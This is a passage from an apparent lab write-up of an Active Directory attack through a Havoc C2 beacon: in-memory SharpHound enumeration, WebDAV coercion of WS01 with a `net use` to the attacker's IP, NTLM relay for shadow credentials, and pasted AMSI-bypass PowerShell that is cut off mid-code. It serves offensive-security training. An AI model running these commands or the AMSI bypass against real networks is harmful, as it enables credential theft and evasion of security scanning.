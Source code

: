 <img src="https://i.imgur.com/s9Xsvzr.png"/>
<img src="https://i.imgur.com/MCVASza.png"/>

Here we can utilize `dotnet inline-execute` to execute .NET binaries in the beacon's memory

```bash
dotnet inline-execute /opt/AD-Windows-Enum/SharpHound.exe "-c all"
```

<img src="https://i.imgur.com/Ihd3ELN.png"/>

And downloading it with `download` , we can find this archive in havoc's loot folder

<img src="https://i.imgur.com/QmpmPls.png"/>

We can find this archive in havoc's loot folder

<img src="https://i.imgur.com/6HcIxaB.png"/>

From e.klaymore we don't see any path for escalation 

<img src="https://i.imgur.com/gWduUlr.png"/>

Using `GetWebDAVStatus` we can verify if the webclient (WebDAV) service is enabled

<img src="https://i.imgur.com/XJfl5Mh.png"/>

Even tho it shows it's not enabled, we can still explicitly enabled it by mapping the drive to our IP address with `responder` running

<img src="https://i.imgur.com/NRW67Io.png"/>

```bash
shell "net use h: http://10.8.0.136/"
```

<img src="https://i.imgur.com/lDN9TjU.png"/>
<img src="https://i.imgur.com/Ws5V2M2.png"/>

## Performing Shadow Credentials through NTLM Relay

We have now have webdav enabled on ws01, now to receive coerce authentication from WS01 we can use any poc for coercion also we need to add a record for our kali IP in DNS as this can be only done on domain joined machines, for that we can use `Powermad.ps1` and for bypassing AMSI we can use this script

https://github.com/senzee1984/Amsi_Bypass_In_2023


```powershell

# AMSI Bypass
function LookupFunc {
    Param ($moduleName, $functionName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
     Equals('System.dll')
     }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -like "Ge*P*oc*ddress") {$tmp+=$_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
@($moduleName)), $functionName))
}


function getDelegateType {
```